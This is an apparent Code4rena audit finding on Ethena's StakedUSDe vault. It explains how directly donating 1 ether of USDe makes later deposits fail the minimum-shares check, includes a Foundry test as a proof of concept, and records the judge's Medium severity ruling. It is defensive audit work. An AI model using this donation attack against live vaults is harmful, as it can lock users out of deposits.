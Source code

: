 ```solidity
  uint256 private constant MIN_SHARES = 1 ether;
```

Assuming malicious users transfer 1 ether of `USDe` into the protocol and receive ZERO shares, how much tokens does the next user need to pay if they want to exceed the minimum share limit of 1 ether? That would be 1 ether times 1 ether, which is a substantial amount.

I add a test case in `StakedUSDe.t.sol`:

```solidity
  function testMinSharesViolation() public {
    address malicious = vm.addr(100);

    usdeToken.mint(malicious, 1 ether);
    usdeToken.mint(alice, 1000 ether);

    //assume malicious user deposit 1 ether into protocol.
    vm.startPrank(malicious);
    usdeToken.transfer(address(stakedUSDe), 1 ether);

    
    vm.stopPrank();
    vm.startPrank(alice);
    usdeToken.approve(address(stakedUSDe), type(uint256).max);

    //1000 ether can't exceed the minimum share limit of 1 ether
    vm.expectRevert(IStakedUSDe.MinSharesViolation.selector);
    stakedUSDe.deposit(1000 ether, alice);
  }
```

We can see even Alice deposit a substantial number of tokens but still cannot surpass the 1 ether share limit which will lead to a denial of service (DoS) for StakedUSDe due to MinShares checks.

### Tools Used

vscode

### Recommended Mitigation Steps

We can solve this issue by setting a minimum deposit amount.

### Assessed type

DoS

**[FJ-Riveros (Ethena) acknowledged, but disagreed with severity and commented via duplicate issue \#32](https://github.com/code-423n4/2023-10-ethena-findings/issues/32#issuecomment-1805643280):**
 > We acknowledge the potential exploitability of this issue, but we propose marking it as `Medium` severity. Our rationale is based on the fact that this exploit can only occur during deployment. To mitigate this risk, we plan to fund the smart contract in the next block, ensuring that nobody has access to the ABI or contract source code. We could even use flashbots for this purpose. 

**[0xDjango (judge) commented via duplicate issue \#32](https://github.com/code-423n4/2023-10-ethena-findings/issues/88#issuecomment-1828560633):**
 > Agree with medium. Several of the duplicate reports vary in their final impacts but mostly consist of:
> 
> - Small donation leading to bricked contract
> - Large donation can eventually lead to blocked withdrawals
> 
> The small donation impact simply requires a redeploy, though the impact is a valid medium. The large donation has major implications for stakers, but the large amount of capital required downgrades it to medium as well. I will be reviewing each duplicate on a case-by-case basis to ensure that all impacts due to the same bug class fit within medium.
